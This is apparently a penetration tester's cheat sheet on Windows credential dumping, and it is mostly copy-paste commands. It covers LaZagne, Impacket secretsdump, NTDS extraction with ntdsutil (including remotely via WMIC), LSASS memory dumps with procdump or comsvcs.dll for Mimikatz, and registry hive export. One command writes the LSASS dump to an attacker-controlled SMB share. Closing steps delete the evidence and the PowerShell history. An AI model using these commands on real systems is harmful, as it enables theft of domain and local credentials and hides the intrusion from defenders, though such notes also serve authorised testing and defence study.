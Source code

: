 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```


### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    clear-history
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```


[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
